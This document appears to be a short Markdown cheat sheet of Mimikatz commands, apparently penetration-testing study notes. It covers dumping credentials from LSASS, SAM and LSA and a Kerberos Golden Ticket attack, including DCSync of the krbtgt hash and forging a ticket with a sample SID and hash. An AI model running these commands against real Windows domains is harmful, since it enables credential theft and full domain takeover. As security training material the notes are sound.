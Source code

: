 Mimikatz requires Admin privileges to function property  
Check Privilege : `privilege::debug`  
Output : 20 OK (We have sufficient privileges)

`log <filename>`  
Logs all commands into a log file

---

### Dumping Hashes

LSA : Local Security Authority  
lsass.exe : Local Security Authority Subsystem Service  
SAM : Security Accounts Manager

`sekurlsa::logonpasswords`  
Returns NTLM passwords stored in memory using lsass.exe service  
On older versions of Windows plaintext passwords where returned

`lsadump::sam`  
Dump content of SAM database

`lsadump::lsa`  
Dump LSA credentials  
If NTLM hashes are not shown use the `/patch` option

---

### Kerberos Golden Ticket Attack

For getting the Golden Ticket we need to have access to a user that has some sort of Admin privilege on Active Directory

`lsadump::lsa /inject /name:krbtgt`  
Retrieve the Hash of the krbtgt account from the Domain Controller

`lsadump::dcsync /domain:controller.local /user:krbtgt`  
Fetch Hash of Kerberos account using Dcsync Feature

`kerberos::golden /user:Administrator /domain:controller.local /sid:S-1-5-21-3737340914-2019594255-2413685307 /krbtgt:d125e4f69c851529045ec95ca80fa37e /id:500`  
Generate a Golden Ticket and add in current session  
`/user` : Can use any name  
`/sid` : Krbtgt user sid  
`/krbtgt` : NTLM Hash  
`/id` : Id of domain admin account (Usually 500)

---

**<u>References</u>**:

* [Home · gentilkiwi/mimikatz Wiki · GitHub](https://github.com/gentilkiwi/mimikatz/wiki)
